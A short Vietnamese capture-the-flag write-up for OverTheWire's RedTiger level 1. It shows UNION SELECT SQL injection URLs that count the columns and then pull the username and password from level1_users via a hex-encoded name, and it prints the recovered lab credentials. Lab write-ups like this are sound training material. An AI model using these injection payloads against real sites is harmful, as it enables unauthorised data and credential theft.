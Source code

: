 **1.Bắt đầu bằng việc tìm số cột bị lỗi của trang bằng:
-------------------------------------------------------

`http://redtiger.labs.overthewire.org/level1.php?cat=1 UNION SELECT 1` rồi tăng lần lượt lên `1,2` `1,2,3` đến khi nào không báo lỗi là dừng. Ở đây chúng ta được số cột là 4

http://redtiger.labs.overthewire.org/level1.php?cat=1 UNION SELECT 1,2,3,4

<img src="http://i.imgur.com/ojcgFH2.jpg">

Như ta thấy cột 3,4 bị lỗi

**2. Khai thác thông tin từ 2 cột bị lỗi:
-----------------------------------------

Khi sử dụng `information_schema.columns` thì nhận được thông báo "Something is disable" vì thế chỉ đoán mò dựa vào hint ở đề bài là:

```sh
Target: Get the login for the user Hornoxe 
Hint: You really need one? omg -_- 
Tablename: level1_users 
```
http://redtiger.labs.overthewire.org/level1.php?cat=1 UNION SELECT 1,2,username,password FROM level1_users WHERE username=0x486f726e6f7865

0x486f726e6f7865 ứng với mã hex của Hornoxe

<img src="http://i.imgur.com/E7qWXmJ.jpg">

Hornoxe
thatwaseasy
